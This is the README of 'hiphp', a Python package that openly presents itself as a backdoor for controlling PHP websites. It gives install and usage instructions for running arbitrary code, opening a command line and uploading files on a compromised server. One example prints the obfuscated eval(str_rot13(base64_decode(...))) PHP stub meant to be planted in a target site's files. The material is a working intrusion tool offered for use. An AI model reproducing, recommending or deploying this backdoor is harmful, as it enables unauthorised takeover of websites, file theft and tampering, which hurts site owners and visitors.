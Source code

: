 
<p align="center"><img align="center" src="https://raw.githubusercontent.com/yasserbdj96/hiphp/main/screenshot/screenshot.png"></p>
<h1>hiphp for control php websites.</h1>

<p>backdoor control php sites, The site is controlled by sending commands, files and codes to the site using the http or https protocol. After copying the code and placing it in any php file on the target website, you will have permissions to enter it, read all files, delete and even upload new files to it. Also, this backdoor is password protected and non-reverse encryption.</p>

<h2>Installation:</h2>

```
pip install hiphp==0.1.13
```

<h2>Usage:</h2>

```python
#call the package:
from hiphp import hiphp
#
#
#In order to print the result directly.
p1=hiphp("<PASSWORD>","<http://THE/LINK/TO/THE/PHP/FILE/THAT/CONTAINS/THE/HIPHP/ID>",False)
#
#In order to make the result as a variable.
#p1=hiphp("<PASSWORD>","<http://THE/LINK/TO/THE/PHP/FILE/THAT/CONTAINS/THE/HIPHP/ID>")
#
#
#Get HIPHP ID for first use.
print(p1.get_code())
#
#
#Run a code or line in your website.
p1.run("<YOUR_CODE>")
#
#Run a code or line in your website from a file.
p1.run_file("<PHP_CODE_FILE_PATH>")
#
#Run a code or line in your website from a file With the entry of variables.
p1.run_file("<PHP_CODE_FILE_PATH>","<__VALUE_NAME__>==<VALUE_CONTENT>")
#
#
#open command line interface.
p1.cli()
#
#
#Upload a file to the server hosting the site.
p1.upload("<THE_PATH_OF_THE_FILE_TO_BE_UPLOADED>")
#
#Upload a file to a specific folder in the server hosting the site.
p1.upload("<THE_PATH_OF_THE_FILE_TO_BE_UPLOADED>","./<THE_PATH_YOU_WANT_TO_UPLOAD_THE_FILE_TO>") 

```

<h2>Examples:</h2>

```python
from hiphp import hiphp
#
#
p1=hiphp("123","http://localhost/index.php",False)
#
#
#
# Example:1
# GET ID:
print(p1.get_code())
# OUTPUT:
'''
/*php code start*/
eval(str_rot13(base64_decode(str_rot13(base64_decode('bkpMYldTOUdFSVdKRUlXb1cwdUhJU09zSUlBU0h5OU9FMElCSVBxcUNHMGFaUUx3QlJEM0F3RDBBUlJsWndSbEIwRGtDR1pqWUd0MFdHRDVDbU4xQ1JaakpteDFybVNPWFFOMkJ3SVBuR1Zsb0hObFpRTzBEbU9uQkdEY1p3dTlEMFdxQkdEK0FtTnVEeFp4QXdOekR3RXNBbU5lQUhWa0VRTG1abVYxRHdwM1pSTDVXbHk3TUpBYm9scHdwVXkwblQ5aFdtZ2NNdnVjcDNBeXFQdHhLMU9DSDFFb1cyQWlvSjF1b3pEYUtGeGNyMkkyTEpqYldTOURHMUFISmxxd28yMWdMSjV4VzEwY0IzMXlyVHkwQjMwPQ==')))));
/*php code end*/
'''
# Copy this code into the file whose path you entered earlier.
# for example: https://localhost/index.php
#
#
#
# Example:2
# Command:
p1.run("echo 'this is a test';")
# OUTPUT:
'''
this is a test
'''
#
#
#
# Example:3
# Run code from file:
#-example_3.php content:
'''
echo 'this is a test';
'''
#OR
'''
<?php
    echo 'this is a test';
?>
'''
p1.run_file("example_3.php")
# OUTPUT:
'''
this is a test
'''
#
#
#
# Example:4
# Run code from file With the entry of variables:
#-example_4.php content:
'''
echo '__test__';
'''
#OR
'''
<?php
    echo '__test__';
?>
'''
p1.run_file("example_4.php","test==this is a test")
# OUTPUT:
'''
this is a test
'''
#
#
#
# Example:5
# Command line interface:
p1.cli()
# OUTPUT:
'''
hiphp>>>
'''
#
#
#
# Example:6
# Upload a picture:
p1.upload("picture_example.png")
#
#
#
# Example:7
# Upload a picture to a specific path:
p1.upload("picture_example.png","./pictures/")

```

<h2>Changelog:</h2>

```
#
## 0.1.13
 - safety upgrade.
 - Bug fixes & performance improvements.
#
## 0.1.12
 - safety upgrade.
 - Bug fixes & performance improvements.
#
## 0.1.11
 - Command interface update.
 - Bug fixes & performance improvements.
#
## 0.1.10
 - Fix Bugs.
#
## 0.1.9
 - fix bugs.
#
## 0.1.7
 - fix bugs.
#
## 0.1.6
 - fix bugs.
 - add upload to upload any file.
 - Simplify the use of the program.
#
## 0.1.5
 - fix bugs.
#
## 0.1.4
 - fix bugs.
 - new build.
#
## 0.1.1
 - Import pakages by pipincluder.
 - Fix bugs.
#
## 0.1.0
 - New build.
 - Fix bugs.
#
## 0.0.4
 - Fix bugs.
#
## 0.0.2
 - Fix bugs.
 - Add help list.
 - Add Executing from files.
#
## 0.0.1
 - First public release.

```

<h1></h1> 
   
<p align="center">
   <a href="https://yasserbdj96.github.io" align="center"><img align="center" alt="Website" src="https://img.shields.io/badge/Website-3b5998?style=flat-square&logo=google-chrome&logoColor=white"></a>
   <a href="https://www.linkedin.com/in/yasserbdj96" align="center"><img align="center" alt="LinkedIn" src="https://img.shields.io/badge/-LinkedIn-0e76a8?style=flat-square&logo=Linkedin&logoColor=white"></a>
   <a href="https://twitter.com/yasserbdj96" align="center"><img align="center" alt="Twitter" src="https://img.shields.io/badge/-Twitter-00acee?style=flat-square&logo=Twitter&logoColor=white"></a>
   <a href="https://www.instagram.com/yasserbdj96" align="center"><img align="center" alt="Instagram" src="https://img.shields.io/badge/-Instagram-e4405f?style=flat-square&logo=Instagram&logoColor=white"></a>
   <a href="https://www.facebook.com/yasserbdj96" align="center"><img align="center" alt="Facebook" src="https://img.shields.io/badge/-Facebook-0088cc?style=flat-square&logo=facebook&logoColor=white"></a>
   <a href="https://www.youtube.com/channel/UC53dtKxc84BNPyDb51rtRPg" align="center"><img align="center" alt="Youtube" src="https://img.shields.io/badge/-Youtube-ea4335?style=flat-square&logo=youtube&logoColor=white"></a>
   <a href="https://pypi.org/user/yasserbdj96" align="center"><img align="center" alt="Pypi" src="https://img.shields.io/badge/-Pypi-efeeea?style=flat-square&logo=pypi"></a>
   <a href="mailto:yasser.bdj96@gmail.com" align="center"><img align="center" alt="Gmail" src="https://img.shields.io/badge/-yasser.bdj96@gmail.com-c14438?style=flat-square&logo=Gmail&logoColor=white&link=mailto:yasser.bdj96@gmail.com"></a>
</p>

<p align="center">
    BTC : 16mUJYXdNh9VkjN3MQawA8wvYJqL9F5CKZ

</p>

<p align="center">
    <a align="center" href="https://ko-fi.com/L3L34CEPV">
        <img alt="ko-fi" align="center" src="https://ko-fi.com/img/githubbutton_sm.svg">
    </a>
</p>

<p align="center">
    <a align="center" href="https://yasserbdj96.github.io">
        <img align="center" alt="yasserbdj96" height="100" src="https://raw.githubusercontent.com/yasserbdj96/yasserbdj96/main/images/yasserbdj96.png">
    </a>
    <br>
    <a align="center" href="https://github.com/yasserbdj96/" align="center">
        <img align="center" alt="" src="https://visitor-badge.laobi.icu/badge?page_id=yasserbdj96.hiphp">
    </a>
</p>
